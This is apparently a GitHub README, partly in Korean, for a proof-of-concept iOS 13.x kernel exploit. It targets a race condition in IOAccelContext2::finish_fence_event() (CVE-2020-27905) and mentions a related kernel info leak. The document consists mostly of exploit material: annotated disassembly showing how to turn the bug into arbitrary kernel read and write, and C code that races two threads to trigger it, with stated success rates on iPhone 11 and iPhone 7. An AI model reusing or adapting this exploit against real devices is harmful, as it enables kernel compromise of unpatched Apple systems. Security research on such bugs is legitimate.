 ## oob_events

#저자commnet

I've updated oob_events exploit and it should work fine 
in on A12+ devices (with 60 % of success rate) and ~95% in devices with lower ram size i.e A10.
Tested on iPhone 11 and iPhone 7.

다음은 PoC 커널 익스플로잇으로, iOS 13.7에서 커널 작업 포트를 얻는 방법을 보여줍니다. 
나중에 PoC를 작성하여 업데이트하겠습니다.


개인 장치에서 사용하거나 탈옥에 사용하지 않는 것이 좋습니다. 
장치가 불안정한 상태가 될 수 있습니다
I dont recommend using it in your personal device or to use it for a jailbreak. 
it may leave your device in unstable state. You’ve been warned.


arm64e의 익스플로잇은 iPhone 9,3 (9/10배 작동)과 달리
그다지 안정적이지 않으며 많은 커널 패닉이 예상되며 약간의 작업이
필요하고 이러한 익스플로잇을 일반화하고 모든 장치에서 작동하기는 어렵습니다.


IOGPU 제품군(IOAcceleratorFamily의 후속 제품)과 
함께 제공되는 iOS 14.1을 확인했지만 버그를 유발하는 
일치하는 패턴을 찾지 못했기 때문에 iOS 13.x 및 
IOAcceleratorFamily를 사용하는 모든 장치(예: macOS)에서만 작동합니다.


iOS 13.6으로 인해 익스플로잇을 처음부터 다시 작성해야 했습니다.


![8](8.png)
## oob_events.c
## IOAccelContext2::finish_fence_event() race condition OOB read/write
```
#if 0
IOAccelContext2::finish_fence_event() race condition OOB read/write

This is a method exposed to user space, it takes a kernel read-only shared memory
(type 2 via clientMemoryForType())  address and treats it as an IOAccelEvents Array.

The user supplied index is checked against the IOAccelEvents array bounds,since there are no
locks held in this method,it is possible to change the array bounds by calling
IOAccelContext2::clientMemoryForType() again in a separate thread, this will expand the size by
multiplying the older size by 2, but we still have a reference to the old shared memory address
with the size of the new one.Therefore, we created a condition where the scalar index is checked
against the new array size but we still have the old shared array reference.
From this condition,we can make IOAccelEvents array points to an arbitrary location, thus perform arbitrary
kernel read and semi-arbitrary kernel write.

fffffff0061f7fa4  ldr        x8,[x0, #0x6a8] .       // x8 takes a reference to shmem_addr but not atomically  
fffffff0061f7fa8  cbz        x8,LAB_fffffff0061f8010
fffffff0061f7fac  mov        x20,x0
fffffff0061f7fb0  ldr        w9,[x0, #0x6d8] .      
fffffff0061f7fb4  cmp        w1,w9, LSR #0x6 .       // scalar input is checked against the array bounds,
fffffff0061f7fb8  b.cs       LAB_fffffff0061f8020
....
fffffff0061f7fd4  blr        x8=>IOAccelEventMachineFast2::finishEventUnlocked                        

By completely controlling the IOAccelEvents content, we can perform multiple memory read/writes,
as shown in the disassembly below :

IOAccelEventMachineFast2::finishEventUnlocked()
LAB_fffffff00620e0c0                            XREF[1]:     fffffff00620e20c(j)  
    fffffff00620e0c0  ldr        x23,[x19, x26, LSL #0x3]
    fffffff00620e0c4  cmn        w23,#0x1
    fffffff00620e0c8  b.eq       LAB_fffffff00620e204
    fffffff00620e0cc  lsr        x22,x23,#0x20
    fffffff00620e0d0  smaddl     x25,w23,w28,x21  // x25 will point to arbitrary address , we completely control w23
    fffffff00620e0d4  ldr        w8,[x25, #0xf0]!  
    fffffff00620e0d8  sub        w8,w22,w8
    fffffff00620e0dc  cmp        w8,#0x1
    fffffff00620e0e0  b.lt       LAB_fffffff00620e204
    fffffff00620e0e4  sxtw       x24,w23
    fffffff00620e0e8  ldr        x8,[x21, #0x28] .  
    fffffff00620e0ec  ldr        x8,[x8, x24, LSL #0x3]
    fffffff00620e0f0  ldr        w8,[x8]   // OOB read since x24 is user controlled
    fffffff00620e0f4  str        w8,[x25]  // <---- OOB write


#endif
#include "client.h"

int start= 0;


io_connect_t iokit_get_connection(const char *name,u32 type)
{
    kern_return_t kr = KERN_SUCCESS;
    io_connect_t conn = MACH_PORT_NULL;
    io_service_t service  = IOServiceGetMatchingService(kIOMasterPortDefault,
                                                        IOServiceMatching(name));
    if (service == IO_OBJECT_NULL) {
        printf("unable to find service \n");
        exit(0);
    }

    kr = IOServiceOpen(service, mach_task_self(), type, &conn);
    //CHECK_MACH_ERR(kr,"IOServiceOpen");
    return conn;
}

void map_memory(io_connect_t c,u32 type, void *addr,size_t *size)
{
    kern_return_t kr = IOConnectMapMemory(c, type, mach_task_self(), (mach_vm_address_t *)addr, &size, 1);
    assert(kr == KERN_SUCCESS);
}


void s_finish_fence_event(io_connect_t c,u64 scalar0)
{
    int selector = 5;
    
    kern_return_t kr = IOConnectCallMethod(c, selector, (void*)&scalar0,1,
                 NULL, 0,
                 NULL, NULL,
                 NULL, NULL);

}

void *do_finish_fence_event(void *arg)
{
    io_connect_t c = *(io_connect_t *) arg;
    while(!start){}
    
    s_finish_fence_event(c, 0x100);
    return NULL;
}

void *do_map_memory(void *arg)
{
    io_connect_t c = *(io_connect_t *) arg;
    while(!start){}
    mach_vm_address_t addr = 0;
    mach_vm_size_t size = 0x0;
    
    //pthread_yield_np();
    map_memory(c,2,&addr,&size);
    return NULL;
}
#define THREADS 0x2
pthread_t ths[THREADS];

void doit(void)
{
    printf("Winning Race \n");
    
    while(1) {
        io_connect_t c = iokit_get_connection("IOGraphicsAccelerator2", 0);
        io_connect_t agxsh = iokit_get_connection("IOGraphicsAccelerator2", 2);
       
        IOConnectAddClient(c,agxsh);
        mach_vm_address_t addr = 0;
        mach_vm_size_t size = 0x0;
    
        char *ptr = (char *)addr;
        map_memory(c,2,&addr,&size);
    
        map_memory(c,0,&addr,&size);
        memset(addr,0xcc,0x4000);
        map_memory(c,1,&addr,&size);
        memset(addr,0x41,0x4000);

        u64 value = ((u64)0x41414141 << 0x20) | 0x42424242;
        memcpy(addr,&value,0x8);
        int thc = 1;
        pthread_t th[thc];

        for(int i=0; i< thc; i++) {
            pthread_create(&th[i],NULL,do_map_memory,(void *)&c);
        }
        for(int i=0; i< THREADS; i++) {
        
            pthread_create(&ths[i],NULL,do_finish_fence_event,(void *)&c);
        }
        
        start = 1;
        for(int i=0; i< THREADS; i++) {
            pthread_join(ths[i],NULL);

        }
        for(int i=0; i< thc; i++) {
            pthread_join(th[i],NULL);
        }
        IOServiceClose(c);
        IOServiceClose(agxsh);
    }

}
```

# 설명
The exploit uses two distinct vulnerabilities which I independently discovered and reported to Apple, CVE-2020-27905 which is a race condition leads to OOB read/write  via arbitrary 32-bit index,and CVE-2020-9964 which is a kernel  information leak bug.
